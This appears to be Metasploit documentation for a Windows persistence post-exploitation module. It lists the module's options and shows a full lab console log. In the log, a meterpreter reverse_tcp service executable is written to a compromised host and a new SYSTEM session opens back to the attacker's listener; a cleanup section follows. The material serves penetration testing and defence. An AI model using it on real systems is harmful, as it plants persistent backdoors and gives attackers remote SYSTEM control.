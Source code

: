 ## Overview

This Module will generate and upload an executable to a remote host, next will make it a persistent service.
It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.

## Module Options

**LHOST**

IP of host that will receive the connection from the payload.

**LPORT**

Port for Payload to connect to. Default: `4433`

**OPTIONS**

Comma separated list of additional options for payload if needed in 'opt=val,opt=val' format.
For example: 'AutoLoadStdapi=false,StagerRetryCount=20'

**PAYLOAD**

The payload to use in the service. Default: `windows/meterpreter/reverse_tcp`

**HANDLER**

Start an exploit/multi/handler to receive the connection.

## Verification steps

  1. get session on target
  2. `use post/windows/manage/persistence_service`
  3. `set payload <payload>`
  4. `set lport <lport>`
  5. `set lhost <lhost>`
  6. `set handler true`
  7. `run`

## Usage

### Windows 7 sp1 x64
```
msf5 post(windows/manage/persistence_service) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: test-PC\test
meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 post(windows/manage/persistence_service) > options

Module options (post/windows/manage/persistence_service):

   Name     Current Setting                  Required  Description
   ----     ---------------                  --------  -----------
   HANDLER  true                             no        Start an exploit/multi/handler to receive the connection
   LHOST    192.168.56.1                     yes       IP of host that will receive the connection from the payload.
   LPORT    4433                             no        Port for Payload to connect to.
   OPTIONS                                   no        Comma separated list of additional options for payload if needed in 'opt=val,opt=val' format.
   PAYLOAD  windows/meterpreter/reverse_tcp  no        The payload to use in the service.
   SESSION  1                                yes       The session to run this module on.
msf5 post(windows/manage/persistence_service) > run

[*] Running module against TEST-PC
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.56.1:4433
[+] Meterpreter service exe written to C:\Users\test\AppData\Local\Temp\IDJkb.exe
[*] Creating service pWbPkeDm
[*] Cleanup Meterpreter RC File: /Users/green/.msf4/logs/persistence/TEST-PC_20181017.3740/TEST-PC_20181017.3740.rc
[*] Post module execution completed
[*] Sending stage (179779 bytes) to 192.168.56.101
msf5 post(windows/manage/persistence_service) > [*] Meterpreter session 3 opened (192.168.56.1:4433 -> 192.168.56.101:50101) at 2018-10-17 18:37:51 +0800
msf5 post(windows/manage/persistence_service) > sessions

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  1         meterpreter x86/windows  test-PC\test @ TEST-PC         192.168.56.1:8888 -> 192.168.56.101:50098 (192.168.56.101)
  3         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ TEST-PC  192.168.56.1:4433 -> 192.168.56.101:50101 (192.168.56.101)

msf5 post(windows/manage/persistence_service) >
```
**Clean it**
```
msf5 post(windows/manage/persistence_service) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > resource /Users/green/.msf4/logs/persistence/TEST-PC_20181017.3740/TEST-PC_20181017.3740.rc
[*] Processing /Users/green/.msf4/logs/persistence/TEST-PC_20181017.3740/TEST-PC_20181017.3740.rc for ERB directives.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181017.3740/TEST-PC_20181017.3740.rc)> execute -H -f sc.exe -a "stop pWbPkeDm"
Process 9652 created.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181017.3740/TEST-PC_20181017.3740.rc)> execute -H -f sc.exe -a "delete pWbPkeDm"
Process 9816 created.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181017.3740/TEST-PC_20181017.3740.rc)> execute -H -i -f taskkill.exe -a "/f /im IDJkb.exe"
Process 9688 created.
Channel 13 created.
SUCCESS: The process "IDJkb.exe" with PID 8956 has been terminated.
SUCCESS: The process "IDJkb.exe" with PID 8280 has been terminated.
SUCCESS: The process "IDJkb.exe" with PID 4332 has been terminated.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181017.3740/TEST-PC_20181017.3740.rc)> rm C:\\Users\\test\\AppData\\Local\\Temp\\IDJkb.exe
```


